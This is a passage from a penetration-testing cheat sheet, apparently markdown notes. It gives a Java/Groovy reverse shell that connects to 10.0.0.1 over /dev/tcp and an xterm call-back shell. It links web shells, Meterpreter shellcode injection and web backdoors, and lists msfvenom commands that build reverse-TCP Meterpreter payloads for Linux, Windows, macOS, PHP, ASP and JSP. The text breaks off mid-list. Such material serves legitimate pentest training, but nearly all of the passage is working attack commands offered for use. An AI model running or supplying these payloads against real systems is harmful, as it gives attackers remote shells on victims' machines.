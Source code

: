     ```Java
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    ```
    *Untested submission from anonymous reader*
  - xterm
    - One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
            `xterm -display 10.0.0.1:1`
    - To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
            `Xnest :1`
    - You’ll need to authorise the target to connect to you (command also run on your host):
            `xhost +targetip`
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

  - php-findsock-shell - turns PHP port 80 into an interactive shell  
      [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

  - Perl Reverse Shell ( Very helpfull )  
      [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

  - PHP powered web browser Shell b374k with file upload etc.  
      [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

  - Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell
      <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1>

  - Web Backdoors from Fuzzdb
      <https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors>

- Creating Meterpreter Shells with [MSFVenom](http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/)
  - *Linux*
    - `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`
  - *Windows*
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
  - *Mac*
    - `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

  **Web Payloads**

    - *PHP*
      - `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
      OR
      - `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
    - Then we need to add the *<?php* at the first line of the file so that it will execute as a PHP webpage:
      - `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`
    - *ASP*
      - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`
    - *JSP*
      - `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`
    - *WAR*